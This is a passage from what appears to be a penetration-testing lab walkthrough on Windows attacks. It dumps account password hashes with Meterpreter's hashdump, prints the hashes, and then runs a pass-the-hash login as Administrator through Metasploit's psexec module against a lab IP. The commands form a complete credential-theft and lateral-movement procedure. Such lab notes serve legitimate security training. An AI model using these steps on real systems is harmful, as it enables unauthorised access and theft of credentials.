 ```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- LM+NTLM hash is necessary, so copy the string:

`aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
background
search psexec
use exploit/windows/smb/psexec
options
sessions
# change Payload options
set LPORT 4422
set RHOSTS 10.2.23.202
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
# set target Native\ upload
exploit
```

```bash
getuid
sysinfo
```

![](windows-attacksassets/image-20230318112152450.png)

### Crackmapexec
